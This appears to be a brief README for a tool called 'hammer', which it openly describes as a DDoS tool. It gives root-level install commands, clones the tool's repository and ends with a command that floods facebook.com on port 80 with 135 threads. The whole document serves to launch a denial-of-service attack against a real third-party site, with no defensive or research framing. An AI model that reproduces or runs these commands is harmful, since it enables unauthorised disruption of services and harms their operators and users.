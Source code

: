 # hammer ddos tools by 2024

# installation

```bash
sudo su
```

```bash
apt update -y
```

```bash
git clone https://github.com/anandpathak1/hammer
```

```bash
cd hammer
```

```bash
chmod +x *
```

```bash
./hammer.py -h
```

```bash
./hammer.py -s facebook.com -p 80 -t 135
```

